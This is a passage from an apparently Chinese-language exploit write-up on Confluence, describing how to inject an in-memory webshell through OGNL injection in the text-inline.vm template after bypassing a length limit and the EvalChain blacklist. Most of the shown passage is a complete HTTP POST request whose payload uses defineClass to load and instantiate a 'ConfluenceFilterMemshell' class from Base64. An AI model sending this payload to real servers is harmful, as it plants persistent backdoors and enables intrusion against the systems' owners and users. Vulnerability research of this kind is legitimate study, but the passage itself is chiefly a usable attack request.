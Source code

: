 可以看到，成功进入该方法设置属性值，第二次访问会发现属性已经被覆盖。

[![](assets/1710899069-8c658d7f01ce886dd0fcb7dbbf1cc8bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111525-737c1f8a-d51e-1.png)

### 0.2.2.2 内存马注入

既然长度限制被我们解决了，那就可以注入内存马了，现在需要绕过的是 Ognl 内置的 EvalChain 检测和黑名单，这里我选择直接 defineclass。

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11331

label=aaa\u0027+#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})+\u0027&poc=(@org.springframework.cglib.core.ReflectUtils@defineClass('ConfluenceFilterMemshell',@org.springframework.util.Base64Utils@decodeFromString(''),@java.lang.Thread@currentThread().getContextClassLoader())).newInstance()
```

那么我们还该思考内存马怎么去构造，这里可以直接参考 beichen 师傅之前的内存马，但是需要做一些微小的变化
